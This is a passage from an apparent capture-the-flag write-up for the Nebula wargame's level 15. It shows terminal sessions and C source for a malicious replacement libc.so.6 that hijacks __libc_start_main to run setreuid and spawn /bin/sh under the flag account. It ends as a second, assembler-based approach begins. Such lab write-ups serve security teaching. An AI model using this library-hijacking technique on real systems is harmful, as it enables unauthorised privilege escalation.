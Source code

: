 level15@nebula:/tmp$ mkdir /var/tmp/flag15

level15@nebula:/tmp$ gcc -shared libc.so.6.c -o /var/tmp/flag15/libc.so.6

level15@nebula:/tmp$ /home/flag15/flag15 
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
{% endcodeblock %}

There is an error, because we are linking using GLIBC_2.1.3, but in the binary, there are two symbols with GLIBC_2.0 undefined:
{% codeblock %}
level15@nebula:/tmp$ nm /home/flag15/flag15  | grep ".*U"
         U __libc_start_main@@GLIBC_2.0
         U puts@@GLIBC_2.0
{% endcodeblock %}

We provide version script to the linker, link statically and try the same thing again.
{% codeblock lang:console version.map %}
GLIBC_2.0   {};
{% endcodeblock %}

{% codeblock lang:c libc.so.6.c %}
#include <stdio.h>

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) { 
  setreuid(geteuid(),geteuid());
  execve("/bin/sh", NULL, NULL);

  return 0;
}
{% endcodeblock %}

{% codeblock %}
level15@nebula:/tmp$ gcc -shared -static-libgcc -Wl,--version-script=version.map,-Bstatic libc.so.6.c -o /var/tmp/flag15/libc.so.6

level15@nebula:/tmp$ /home/flag15/flag15 
flag15@nebula:/tmp$ getflag 
You have successfully executed getflag on a target account
{% endcodeblock %}

The second way how to solve the challenge is without linking libc, writing assembler code. For this purpose we used [nasm](http://www.nasm.us/pub/nasm/releasebuilds/2.11.08/) 
assembler, everything needed for the compilation process was already on the nebula iso.

{% codeblock %}
level15@nebula:/tmp$ wget -q http://www.nasm.us/pub/nasm/releasebuilds/2.11.08/nasm-2.11.08.tar.gz
level15@nebula:/tmp$ tar xzf nasm-2.11.08.tar.gz 
level15@nebula:/tmp$ cd nasm-2.11.08/
level15@nebula:/tmp/nasm-2.11.08$ ./configure && make ; cd ..
{% endcodeblock %}
